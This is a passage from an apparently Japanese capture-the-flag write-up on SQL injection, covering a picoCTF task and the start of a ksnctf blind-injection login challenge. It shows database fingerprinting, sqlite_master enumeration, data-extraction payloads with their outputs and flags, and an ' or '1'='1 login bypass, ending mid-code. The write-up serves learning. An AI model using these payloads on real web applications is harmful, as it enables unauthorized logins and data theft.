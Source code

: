 次に、問題文からsecretをDBから取り出す必要があるので、DBを特定する必要がある。  
`' || @@version || '`が成功すればMySQLかMSSQL、`' || version() || '`ならPostgeSQL、`' || sqlite_version() || '`ならSQLiteとわかる。  
今回はSQLiteのやつで`3.22.0 `が返る！  
https://sqliteonline.com/  
ここで適宜ちゃんとSQLite上で動作できるのか触りながらやるとよさそう。  
SQLiteでは、以下のようにして、DB内に存在するテーブルやカラムなどを表示できる！超楽！  
`group_concat()`を使わないと、一つずつしか返ってこない。`users,apps`とかの場合は`users`しか返してくれないので。  
```txt
// 存在するテーブル一覧を返す
SELECT tbl_name FROM sqlite_master
SELECT group_concat(tbl_name) FROM sqlite_master

// 存在するテーブルとそのカラムをセットで返す。こっちの方が情報量多い
SELECT sql FROM sqlite_master
SELECT group_concat(sql) FROM sqlite_master
```
以下のようにして`user`テーブルの`secret`カラムのデータを呼び出すとフラグゲット！  
```txt
' || (SELECT group_concat(secret) FROM user) || '
Likes Oreos.,Know it all.,picoCTF{wh00t_it_a_sql_injectd75ebff4},picoCTF{wh00t_it_a_sql_injectd75ebff4},picoCTF{wh00t_it_a_sql_injectd75ebff4} 

' || (SELECT secret FROM user) || '
Likes Oreos. 

' || (SELECT group_concat(tbl_name) FROM sqlite_master) || '
user,user,todo 

' || (SELECT tbl_name FROM sqlite_master) || '
user

' || (SELECT * FROM sqlite_master) || '
Internal Server error

' || (union select 10) || '
Internal Server error

' || (SELECT group_concat(sql) FROM sqlite_master) || '
CREATE TABLE user ( id INTEGER NOT NULL, username VARCHAR(64), name VARCHAR(128), password_hash VARCHAR(128), secret VARCHAR(128), admin INTEGER, PRIMARY KEY (id) ),CREATE UNIQUE INDEX ix_user_username ON user (username),CREATE TABLE todo ( id INTEGER NOT NULL, item VARCHAR(256), user_id INTEGER, PRIMARY KEY (id), FOREIGN KEY(user_id) REFERENCES user (id) ) 
```
## ksnctf
### blind Injection / SQLite3 (Login 6)
http://ctfq.sweetduet.info:10080/~q6/  
idとpassの入力フォームがあって、`admin`としてログインしたい。  
`' or '1'='1`でログイン成功したが、以下のソースが表示されて、adminのパスワードを特定する必要がある。  
```txt
Congratulations!
It's too easy?
Don't worry.
The flag is admin's password.

Hint:
<?php
    function h($s){return htmlspecialchars($s,ENT_QUOTES,'UTF-8');}
    
    $id = isset($_POST['id']) ? $_POST['id'] : '';
    $pass = isset($_POST['pass']) ? $_POST['pass'] : '';
    $login = false;
    $err = '';
```